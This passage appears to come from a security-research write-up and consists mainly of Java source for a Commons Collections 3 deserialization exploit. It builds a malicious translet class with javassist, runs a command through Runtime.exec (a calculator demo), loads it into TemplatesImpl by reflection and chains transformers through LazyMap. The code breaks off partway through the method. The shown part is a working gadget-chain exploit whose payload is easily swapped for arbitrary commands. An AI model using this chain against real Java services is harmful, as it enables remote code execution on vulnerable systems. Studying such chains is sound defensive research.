 <img src="./images/12.png" alt="">

## LazyMap

```java
package CommonsCollections3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:20 am
 */
public class CommonsCollections3LazyMap {

    public static void CC3() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException, ClassNotFoundException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Rvil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetShellCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class _class = templates.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetShellCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap();
```